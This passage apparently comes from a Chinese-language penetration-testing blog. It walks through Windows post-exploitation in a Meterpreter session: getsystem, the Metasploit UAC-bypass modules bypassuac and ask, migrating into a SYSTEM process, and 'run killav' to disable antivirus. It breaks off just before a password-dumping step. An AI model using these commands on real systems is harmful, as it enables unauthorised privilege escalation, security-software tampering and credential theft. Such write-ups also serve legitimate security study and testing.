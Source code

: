 ![][8]

![][9]

![][10]

### 提权及密码获取

首先看下权限：`getuid`并习惯性的用`meterpreter`自带提权命令`getsystem`提权

> 如果不是`meterpreter`而是`shell`才使用`whoami`

![][11]

可以看到默认提权失败，进程里是有管理员和`system`进程的，怀疑有`uac`

其实获得会话后`bypass uac`才应该是第一步

`ctrl+z`输入`y`将会话退到后台(`shell`退到`meterpreter`也是这样)

```
use exploit/windows/local/bypassuac
set session 1
exploit
getsystem
getuid
```

![][12]

可以看到我们`bypass`也失败了，上传的提权文件被腾讯管家拦截了

`bypass uac`还可以用另一个模块：

```
use exploit/windows/local/ask
set session 1
exploit
```

正常情况下只要用户点击弹窗的确认就能绕过`uac`，但是上传的文件又被`360`拦截了

那就最简单的办法，`migrate PID`迁移进程

首先`ps`查看下进程，选择一个`system`进程，并记住`PID`：

![][13]

然后`migrate 1192`并`查看权限`：

![][14]

成功获取到`system`权限，杀毒软件很碍事，杀掉吧：`run killav`

不过好像没啥用，只关掉了我们运行`msbuild_nps.xml`的`cmd`窗口

那我们获取下密码：


[1]: https://mp.weixin.qq.com/s/XmSRgRUftMV3nmD1Gk0mvA
[2]: https://img.soapffz.com/archives_img/2020/01/31/archives_20200131_172905.png
[3]: https://img.soapffz.com/archives_img/2020/01/31/archives_20200130_215735.png
[4]: https://img.soapffz.com/archives_img/2020/01/31/archives_20200131_121253.png
[5]: https://img.soapffz.com/archives_img/2020/01/31/archives_20200131_102226.png
[6]: https://img.soapffz.com/archives_img/2020/01/31/archives_20200131_121253.png
[7]: https://img.soapffz.com/archives_img/2020/01/31/archives_20200131_181113.png
[8]: https://img.soapffz.com/archives_img/2020/01/31/archives_20200201_142213.png
[9]: https://img.soapffz.com/archives_img/2020/01/31/archives_20200201_142234.png
[10]: https://img.soapffz.com/archives_img/2020/01/31/archives_20200201_142256.png
[11]: https://img.soapffz.com/archives_img/2020/01/31/archives_20200201_133916.png
[12]: https://img.soapffz.com/archives_img/2020/01/31/archives_20200201_134322.png
[13]: https://img.soapffz.com/archives_img/2020/01/31/archives_20200201_134801.png
[14]: https://img.soapffz.com/archives_img/2020/01/31/archives_20200201_134839.png
[15]: https://img.soapffz.com/archives_img/2020/01/31/archives_20200201_135341.png
[16]: https://img.soapffz.com/archives_img/2020/01/31/archives_20200201_164139.png
[17]: https://img.soapffz.com/archives_img/2020/01/31/archives_20200201_164524.png
[18]: https://mp.weixin.qq.com/s/QXOmGCL8f2ISWAlYQ0mqPA